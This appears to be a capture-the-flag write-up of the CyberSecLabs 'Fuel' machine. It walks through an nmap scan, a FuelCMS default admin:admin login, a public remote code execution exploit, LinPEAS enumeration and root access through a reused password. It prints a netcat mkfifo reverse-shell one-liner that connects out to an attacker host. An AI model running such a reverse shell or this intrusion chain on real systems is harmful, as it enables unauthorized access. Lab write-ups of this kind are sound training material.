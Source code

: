 ```yaml
---
layout: page
title: Fuel - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/fuel.html
---
```


# Fuel - CyberSecLabs
----



First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.28`

![image](https://user-images.githubusercontent.com/50459517/109032719-8d6a0780-768b-11eb-8e02-5ee7469b6f5f.png)

Lets check out port 80

![image](https://user-images.githubusercontent.com/50459517/109032751-95c24280-768b-11eb-9478-df37555e46c1.png)

Looks like we have FuelCMS here.  According to the robots.txt results from the nmap scan, /fuel is disallowed for serach engines so lets go there and see what we can find.

![image](https://user-images.githubusercontent.com/50459517/109032788-9eb31400-768b-11eb-83cc-41029f30987a.png)

We have a login, first thing I like to do is try default logins and sure enough **admin:admin** worked.

![image](https://user-images.githubusercontent.com/50459517/109032835-a7a3e580-768b-11eb-8481-2aed5d2cb39d.png)

Nice, after looking around for a while I couldn't figure anything out to exploit this further from the admin panel so I decided to look up some potential exploits for this version and found the following.

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/47138)

This is a RCE vuln that sends the malicious url with the command we want to send to the server.  It loops so we can send endless commands as long as we have connection.  It also forwards to a proxy like burp which we could simply remove but I decided to keep during the testing.

I admit, I got stuck on this for a while thinking it wouldn't work, trying to move to a different path thinking this exploit is broken before coming back.  When I first ran the exploit, I first ran **whoami** like this.

![image](https://user-images.githubusercontent.com/50459517/109032878-b38fa780-768b-11eb-925d-a393cf2f5677.png)

So I sent to Repeater and got this response.

![image](https://user-images.githubusercontent.com/50459517/109032909-be4a3c80-768b-11eb-93fb-43d06335e8d7.png)

I saw the **systemmoira** and thought yeah they looks like the return to the command I issued.  I then decided to modify the request within burp to issue the command **id**

![image](https://user-images.githubusercontent.com/50459517/109032940-c73b0e00-768b-11eb-8dc9-8b69d56c2403.png)

But I got the same outcome... Everytime I came back to this exploit, just knowing this was the path onto the machine, but just couldn't get it to work.

Then after just turning intercept off of burp and trying the command I saw the output I needed from the command window

![image](https://user-images.githubusercontent.com/50459517/109032980-d02bdf80-768b-11eb-908a-a5bee4f54880.png)

Finally!  Now that I ran a few different commands such as **pwd** and **ls -l** and got different results I knew I was on the right track.  Not sure why I was getting weird results through brup but either way I moved on.

I used the netcat reverse shell one liner below to get a shell onto the machine.

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.11 1234 >/tmp/f`

![image](https://user-images.githubusercontent.com/50459517/109033027-d8841a80-768b-11eb-873e-af96aa1c6646.png)

Now time to copy over LinPEAS and see what we can find

![image](https://user-images.githubusercontent.com/50459517/109033069-e33eaf80-768b-11eb-864e-3af9e5b8198e.png)

I found the output of **.bash_history** to be interesting.  We see the password for moira.  I tried a few things such as **sudo -l** but ended up finding that the root password is the same as moira's.  So a simple **su root** is all that is needed.

![image](https://user-images.githubusercontent.com/50459517/109033115-eb96ea80-768b-11eb-8bf2-b21c37ad0d08.png)
